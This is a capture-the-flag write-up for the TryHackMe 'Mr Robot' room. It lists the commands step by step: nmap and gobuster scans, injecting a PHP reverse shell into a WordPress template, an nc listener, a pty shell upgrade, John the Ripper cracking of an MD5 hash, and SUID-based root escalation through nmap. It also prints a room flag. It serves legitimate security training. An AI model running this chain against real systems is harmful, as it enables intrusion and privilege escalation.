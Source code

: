 ```yaml
---
tags:
  - CTF
  - reverse
  - RevShell
  - John_the_Ripper
  - crack
  - base64
  - hashing
  - nmap
  - gobuster
  - tee
  - echo
  - python
  - find
---
```

----------------------
- Link: https://tryhackme.com/r/room/mrrobot
- write-ups:
	1. https://youtu.be/FxeFGkRhR3Q?si=yI84qwF4P7MExMCc
	2. https://medium.com/@DRX_Sicher/writeup-mr-robot-ctf-1baf5f20e6f4

----

# Preparing


#### 1 - doing the scan stuff

```bash
nmap -A {ip}
```

```bash
gobuster dir -u {ip} -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

---
#### 2 - important directories 

`/license` , `/robots` , `login`

---
#### 3 - get to `robot`

you will find the first flag in the file text in the `robot` directory, and another doc file with a word list

----

#### 4 - Login-page

- Go and login in the `/login` directory with the password you will find in `/license` directory - and scroll down in the page to find it-
- Get to the appearance menu in word press and go to editor and open any template and add the `php reverse shell code` from the following link and make sure to add  your `IP` and the port and go to the link of the PHP you edit it `{ip}/404.php`:
	https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- and listen with 
```bash
nc -lvnp {your opened port}
```
- change your shell to a normal shell, BTW this thing already mentioned in the [LinuxRoom-2](LinuxRoom-2.md)
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
- print this file ---> `password.raw-md5` and crack the `md5` in the file with john the ripper, BTW this note of `john the ripper` mentioned in cracking the hash code in [LinuxRoom-1](../../THM_CTF/LinuxRoom-1.md)
```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" | tee hash && john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```
- and the flag is `822c73956184f694993bede3eb39f959`

-----

#### 5 -  Search for the root accessed binaries

- Find the binaries that have a root privileges  
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
```
- The hint on the site says one thing `nmap` and the `nmap` appears to have a root privileges, so what we want to do is to open an interactive shell to access the root directory of the machine from the `namp`
	- here is a link of a site to open an interactive shell, search with the name of the tool and the condition of your shell. the link --->
		https://gtfobins.github.io/gtfobins/nmap/
	- after that access the root directory `cd /root/` and take the key.....